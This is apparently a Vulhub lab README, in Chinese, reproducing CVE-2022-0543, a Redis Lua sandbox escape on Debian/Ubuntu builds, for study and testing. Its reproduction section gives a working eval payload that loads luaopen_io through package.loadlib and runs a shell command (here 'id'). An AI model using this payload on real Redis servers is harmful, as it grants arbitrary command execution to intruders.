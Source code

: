 # Redis Lua沙盒绕过命令执行（CVE-2022-0543）

Redis是著名的开源Key-Value数据库，其具备在沙箱中执行Lua脚本的能力。

Debian以及Ubuntu发行版的源在打包Redis时，不慎在Lua沙箱中遗留了一个对象`package`，攻击者可以利用这个对象提供的方法加载动态链接库liblua里的函数，进而逃逸沙箱执行任意命令。

参考链接：

- <https://www.ubercomp.com/posts/2022-01-20_redis_on_debian_rce>
- <https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=1005787>

## 漏洞环境

执行如下命令启动一个使用Ubuntu源安装的Redis 5.0.7服务器：

```
docker compose up -d
```

服务启动后，我们可以使用`redis-cli -h your-ip`连接这个redis服务器。

## 漏洞复现

我们借助Lua沙箱中遗留的变量`package`的`loadlib`函数来加载动态链接库`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`里的导出函数`luaopen_io`。在Lua中执行这个导出函数，即可获得`io`库，再使用其执行命令：

```lua
local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io");
local io = io_l();
local f = io.popen("id", "r");
local res = f:read("*a");
f:close();
return res
```

值得注意的是，不同环境下的liblua库路径不同，你需要指定一个正确的路径。在我们Vulhub环境（Ubuntu fiocal）中，这个路径是`/usr/lib/x86_64-linux-gnu/liblua5.1.so.0`。

连接redis，使用`eval`命令执行上述脚本：

```lua
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```
